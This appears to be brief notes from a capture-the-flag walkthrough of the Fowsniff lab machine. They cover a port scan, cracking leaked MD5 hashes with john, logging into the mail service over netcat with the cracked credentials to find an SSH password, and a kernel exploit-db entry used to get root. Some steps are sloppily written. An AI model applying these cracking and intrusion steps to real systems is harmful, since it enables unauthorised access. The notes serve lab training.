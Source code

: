 # Fowsniff 1
```
export ip = "10.10.190.31"
```

## Port Scan
```
22 ssh
80 http
110 pop3
143 imap 
```

## Web Recon
```
1. http://10.10.254.176/

2. twitter : fowsniff 

3. https://pastebin.com/NrAqVeeX

4. Decrypt Credential Get
```

## Credential Crack
```
1. john {{decrypt_credential.txt}} --format=raw-md5 --wordlist= rockyou
```

## IMAP Enumeration
```
1. Accessable Credential : seina:scoobydoo2
2. Access Command : nc export_ip port

-----------IMAP Eunmerate-----------------
1. user seina
2. user scoobydoo2
3. RETR 1 S1ck3nBluff+secureshell --> SSH password
4. RETR 2 baksteen --> ID
```

## Priviliege Esclate
```
1. What's Point?
--> Kernel version

2. exploit-db
--> https://www.exploit-db.com/exploits/44298 

3. Get root
```